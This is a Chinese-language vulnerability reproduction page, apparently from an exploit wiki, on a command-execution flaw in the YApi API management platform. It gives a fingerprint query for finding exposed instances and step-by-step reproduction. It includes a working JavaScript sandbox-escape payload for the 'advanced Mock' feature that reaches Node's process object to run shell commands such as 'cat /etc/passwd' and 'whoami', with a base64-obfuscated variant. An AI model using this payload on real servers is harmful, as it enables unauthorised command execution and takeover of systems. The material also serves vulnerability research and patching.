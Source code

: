# YApi 接口管理平台 后台命令执行漏洞

## 漏洞描述

YApi 接口管理平台 后台存在命令执行漏洞，攻击者通过发送特定的请求可执行任意命令获取服务器权限

## 漏洞影响

<a-checkbox checked>YApi 接口管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="YApi"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313101756201.png)



首先需要注册账户并登录



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313101755024.png)



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313101754805.png)



添加项目，参数任意, 创建后点击 高级Mock 输入如下Payload

```javascript
const sandbox = this; // 获取Context
const ObjectConstructor = this.constructor; // 获取 Object 对象构造函数
const FunctionConstructor = ObjectConstructor.constructor; // 获取 Function 对象构造函数
const myfun = FunctionConstructor('return process'); // 构造一个函数，返回process全局变量
const process = myfun();
mockJson = process.mainModule.require("child_process").execSync("cat /etc/passwd").toString()

const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const base64Str = "Y29uc3QgciA9IHByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCJjaGlsZF9wcm9jZXNzIikuZXhlY1N5bmMoImhhaGhhaGFoYWhhaGEiKTtyZXR1cm4gcjsK"
const bufferer = FunctionConstructor("haha = new Buffer('" + base64Str + "', 'base64');return haha");
const haha = new bufferer();
const c = haha.toString()
const daima = c.replace("hahhahahahaha","whoami")//这里写命令
const daima_jiazai = FunctionConstructor(daima);
const jieguo = daima_jiazai()
mockJson = jieguo.toString();
```



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313101754860.png)



预览处点击项目链接

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313101754769.png)
